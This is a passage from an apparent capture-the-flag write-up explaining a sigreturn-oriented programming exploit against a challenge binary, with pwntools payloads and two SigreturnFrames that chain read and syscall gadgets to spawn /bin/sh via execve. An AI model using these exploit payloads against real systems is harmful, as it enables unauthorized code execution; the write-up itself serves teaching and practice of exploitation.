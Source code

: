 than we ret; to 0x40100e which is a syscall with the argument rax=0xf so a
syscall sigreturn that load our SigreturnFrame.

we prepared the frame that rip pointd to a syscall rax(rdi,rsi,rdx) that will
be executed next.  
`rax = 0x0` so read()  
`rdi = 0x0` so from stdin  
`rsi = 0x40203b` which is the addr where our new stackframe starts ( rsp and
rbp were defined by the Sigreturn)  
`rdx = 0x320` so up to 800 bytes (we will need to write the /bin/sh as far
into memory as possible ... with my solution but more later)

now we can input our next Payload that will place 2 read() gadgets on the
stack and our /bin/sh string into 0x402353 and uses 800 bytes so our
/bin/sh\00 string starts at 0x402353 so there are basically 792 bytes that we
dont care about if they change in furter read().  
```  
payload3 = p64(0x401006) + p64(0x401006) + b'A'*776 +b'/bin/sh\x00'  
sl(payload3)  
```

now we can create the next SigreturnFrame for our execve(/bin/sh,0,0) as we
now have the /bin/sh string in a place of memory that is not afected by ASLR

```  
frame2 = SigreturnFrame(kernel='amd64')  
frame2.rip = 0x40100e           #rip = addr of syscall gadget  
frame2.rdi = 0x402353           #rdi = addr of "/bin/sh"  
frame2.rsi = 0x0                #rsi = arg1  
frame2.rdx = 0x0                #rdx = arg2  
frame2.rax = 0x3b               #rax = execve  
```  
than we create our next payload as we are now on the 1st of the 2 read() which
we wrote on the stack in the last step.  
read(0,0x40203b,0x320) which will not overwrite our /bin/sh since we are only
sending 280 bytes.

```  
 payload = b'A'*8                #fill the buffer  
 payload += b'B'*8               #fill the rbp  
 payload += p64(0x401006)        #5th ret point to read() again to setup the
rax to 0xf  
 payload += p64(0x40100e)        #6th ret point to sigret() that setup the
registers and sets rip to a syscall than executes execve(/bin/sh,0,0)  
 payload += bytes(frame2)  
 sl(payload)  
```  
that stores another read() and a syscall() gadget and our 2nd SigreturnFrame
on the Stack.

we ret; to the 2nd 0x401006 read() that sets our rax=0xf')

```  
 payload = b'ABCDEFGHIJKLMN'       #14 bytes + 1 from the \n at the end =0xf  
 sl(payload)  
```  
now we ret: to 0x40100e syscall 0xf which is a syscall sigreturn() again.  
our SigreturnFrame gets loadet and rip is set to another syscall() now with
registes setup to syscall 0x3b(0x402353,0,0) which means syscall
execve(/bin/sh,0,0)
